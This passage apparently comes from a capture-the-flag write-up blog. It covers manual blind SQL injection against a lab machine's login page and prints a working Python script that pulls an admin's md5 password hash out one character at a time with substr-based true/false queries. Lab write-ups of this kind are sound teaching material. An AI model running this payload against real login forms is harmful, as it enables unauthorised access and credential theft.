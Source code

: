 **2- Manual Exploitation of SQL Injection**

As mentioned at the beginning of the blog, this was a blind SQL injection where you had to ask the application true and false questions in order to enumerate every character of the hashed password. We did this with an automated tool called SQLMap, however, this could have easily been done with the following simple script \(sqli-exploit.py\).

```text
import requestschars = "0123456789abcdef"def GetSQL(i,c):
    return "admin' and substr(password,%s,1) = '%s' -- -" % (i,c)for i in range(1,33):
    for c in chars:
        injection = GetSQL(i,c)
        payload = {'username':injection,'password':"randompassword"}
        r = requests.post('http://10.10.10.73/login.php',data=payload)
        if 'Wrong identification' in r.text:
            print(c,end='',flush=True)
            breakprint()
```

The idea behind the script is that we loop through all the possible characters in an md5 hash \(chars variable\) and ask the application if the first character of the hashed password is equal to the first character of the chars string. If it is not, we ask the application if the first character of the hashed password is equal to the second character of the chars string, and so on until we get the ‘Wrong identification’ error which indicates that the we identified the first character of the password. This is done in a loop until we identify all 32 characters of the md5 hashed password.

The following is an example of using the blind SQL injection to ask the application if the first character of the md5 hashed password is “0”. Since we got the error “Wrong identification”, that is equivalent to the application responding with a “yes it is the first character of the md5 hashed password”.

![](../images/max/1425/1*N49GoOofwiFIpdzqdIMixQ.png)

Obviously doing something like this by hand is time consuming, so I found it really cool how ippsec did it with the above simple script.
